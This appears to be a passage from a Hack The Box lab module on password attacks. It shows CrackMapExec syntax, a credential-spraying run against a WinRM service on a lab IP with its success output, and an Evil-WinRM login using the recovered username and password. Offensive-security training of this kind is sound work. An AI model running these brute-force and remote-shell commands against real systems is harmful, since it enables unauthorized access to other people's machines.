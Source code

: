 
#### CrackMapExec Usage

The general format for using CrackMapExec is as follows:

  CrackMapExec Usage

```shell-session
Tachipy@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

  CrackMapExec Usage

```shell-session
Tachipy@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
#### Evil-WinRM Usage

  Evil-WinRM Usage

```shell-session
Tachipy@htb[/htb]$ evil-winrm -i 10.129.100.246 -u john -p november
```